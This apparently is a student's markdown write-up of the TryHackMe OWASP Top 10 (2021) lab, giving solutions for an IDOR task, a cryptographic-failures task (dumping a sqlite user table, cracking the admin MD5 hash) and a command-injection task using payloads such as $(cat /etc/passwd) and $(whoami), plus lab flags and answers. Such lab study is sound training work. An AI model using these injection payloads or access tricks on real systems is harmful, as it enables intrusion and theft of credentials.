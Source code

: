 # Owasp top 10 (2021)

**Date**: 28, August, 2024  
**Author**: P.Hima Bindu  

---

[Click Here](https://tryhackme.com/r/room/owasptop102021) to go to the TryHackMe room.

---

![Description](./Images/img1.png)

Deploy the machine and go to [http://MACHINE_IP](http://MACHINE_IP) - Login with the username **noot** and the password **test1234**.


### **Task 4 :** Broken Access Control (IDOR Challenge)

- Look at other users' notes. What is the flag?
  - Try to change the 'note_id=1' parameter to something else. I tried 'note_id=2/3/4', At 'note_id=5' I get a hint displayed in the screen.
  - **Hint** - Do note_ids start from 1? Maybe go lower ;)
  - Then changed the 'note_id=0', Boom! I got the flag
  - **flag{fivefourthree}**


### **Task 8 :** Cryptographic Failures(Challenge)

connect to the web application at http://Machine_IP/.

##
- What is the name of the mentioned directory?

```bash
curl http://10.10.134.171:81/login.php
```

observe the page, you can find this :  Must remember to do something better with the database than store it in **/assets**...

- Ans - **/assets**
##

##
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data? (Navigate to - http://10.10.134.171:81/assets)

![Description](./Images/img2.png)

- Ans - **webapp.db**
##

##
- Use the supporting material to access the sensitive data. What is the password hash of the admin user?

```bash 
sqlite3 webapp.db
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> PRAGMA table_info(sessions)
   ...> ;
0|sessionID|TEXT|1||1
1|userID|TEXT|1||0
2|expiry|INT|1||0
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

```
- Ans - **6eea9b7ef19179a06954edd0f6c05ceb**
##

##
- What is the admin's plaintext password?
  - use the crackstation online tool for cracking the hash

![Description](./Images/img3.png)  

  - Ans - **qwertyuiop**
##

##
- Log in as the admin. What is the flag?

  - username=admin, password=qwertyuiop

![Description](./Images/img4.png) 

- Ans - **THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}**




### 3.1 Command Injection

navigate to http://Machine_IP/ and exploit the cowsay server

##
- What strange text file is in the website's root directory?

- $(ls) 

![Description](./Images/img8.png) 

- Ans: **drpepper.txt**

##

##
- How many non-root/non-service/non-daemon users are there?

- $(cat /etc/passwd)

- Here in the passwd file, there are no non-root users/non-service/non-demon. So the answer is:
- Ans: **0**

##

##
- What user is this app running as?

- $(whoami)

![Description](./Images/img6.png) 

- Ans: **apache**

##

##

- What is the user's shell set as?

- $(cat /etc/passwd)

![Description](./Images/img7.png)

- Ans: **/sbin/nologin
##

##
- What version of Alpine Linux is running?

- $(cat /etc/alpine-release)

![Description](./Images/img5.png)

- Ans: **3.16.0**